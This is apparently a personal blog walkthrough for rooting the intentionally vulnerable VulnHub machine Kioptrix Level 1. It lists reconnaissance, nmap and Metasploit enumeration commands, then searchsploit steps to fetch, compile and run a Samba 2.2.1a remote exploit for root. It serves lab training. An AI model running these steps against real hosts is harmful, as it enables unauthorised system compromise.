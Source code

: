 ```yaml
---
title: "Vulhub-Kiotrix Level 1 Walkthrough"
date: 2024-01-24
categories: [Vulnhub, CTF ]
image: /assets/Kioptrix_Cover.jpg
tags: [Kioptrix, Boot2Root, Penetration Testing, Samba Exploit]
description: "A walkthrough for hacking the vulnerable machine Kioptrix Level 1 from VulnHub."
active: true
---
```


<script>
  // Set to `false` if the machine is active and writeup should be hidden
  const isRetired = true;

  document.addEventListener("DOMContentLoaded", function () {
    const walkthrough = document.getElementById("walkthrough");
    const warning = document.getElementById("retirement-warning");

    if (isRetired) {
      walkthrough.style.display = "block";
      warning.style.display = "none";
    } else {
      walkthrough.style.display = "none";
      warning.style.display = "block";
    }
  });
</script>

<div id="retirement-warning" style="display:none; border: 1px solid #f00; padding: 1em; background: #fee;">
  <h2>🚫 Walkthrough Not Available</h2>
  <p>This machine is still active. Write-ups are restricted until it is retired.</p>
  <p>Please review <a href="https://help.hackthebox.com/en/articles/5184601-writeups-policy" target="_blank">HTB’s write-up policy</a> for more info.</p>
</div>

<div id="walkthrough" style="display:none;">

## Introduction
Welcome to the Kiotrix Level 1 challenge. This is a walkthrough for hacking the vulnerable machine **Kioptrix Level 1** from VulnHub. There are various ways to root this box, and I will keep the process clear and concise. Let's get started.

## Challenge Details
- **Name:** Kiotrix Level 1  
- **Category:** Boot2Root  
- **Difficulty:** Easy  

## Prerequisites
Before you begin, ensure that you have the following:
- **Kali Linux** or any other preferred penetration testing distribution.
- **Kioptrix Level 1 VM** installed and running.
![Kioptrix VM Running](../assets/1kioprix.png)


## Walkthrough
### Step 1: Reconnaissance
#### Network Discovery and Setup
Execute the following command on your attack machine to check if Kioptrix Level 1 is on the network:
```bash
arp-scan -l
```
If Kioptrix is not detected, troubleshoot and ensure it is installed correctly.
![Kioptrix VM Running](../assets/2kioptrix.png)
Identified IP address:
```bash
192.168.10.171
```

### Step 2: Enumeration
Run an Nmap scan to identify open ports and services:
```bash
nmap -A -p- -T4 192.168.10.171
```
The results show that **port 80 is open**, displaying a test page in the browser.
![Kioptrix VM Running](../assets/4kioptrix.png)
![Kioptrix VM Running](../assets/3kioptrix.png)
Additionally, **Samba service** is detected, which will be crucial for privilege escalation.

### Step 3: Samba Enumeration
Utilize `enum4linux` and `smbclient` to confirm the presence of Samba on the remote host.
![Kioptrix VM Running](../assets/5kioptrix.png)
Start Metasploit and use the auxiliary scanner:
![Kioptrix VM Running](../assets/6kioptrix.png)
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.10.171
run
```
![Kioptrix VM Running](../assets/6kioptrix.png)
The results show that **Samba 2.2.1a** is running, which is vulnerable to multiple exploits.

### Step 4: Exploitation - Samba 2.2.1a
Search for available exploits using `searchsploit`:
```bash
searchsploit samba 2.2.1a
```
The results show multiple exploits, and we choose `multiple/remote/10.c`.
![Kioptrix VM Running](../assets/9kioptrix.png)
Download the exploit:
```bash
searchsploit -m multiple/remote/10.c
```
![Kioptrix VM Running](../assets/10kioptrix.png)
Compile the exploit:
```bash
gcc -o sambaexploit 10.c
```
![Kioptrix VM Running](../assets/11kioptrix.png)
Execute the exploit:
```bash
./sambaexploit -b 192.168.10.171
```
![Kioptrix VM Running](../assets/12kioptrix.png)
After execution, verify root access:
```bash
whoami
```
![Kioptrix VM Running](../assets/13kioptrix.png)
![Kioptrix VM Running](../assets/14kioptrix.png)
## Conclusion
You've successfully completed Kiotrix Level 1. This walkthrough provided a step-by-step guide to solving the challenge. If you encountered any issues or have questions, feel free to reach out!

Remember to document and understand the techniques used, as they may be helpful in future CTFs. **Happy hacking!**
</div> <!-- End walkthrough -->

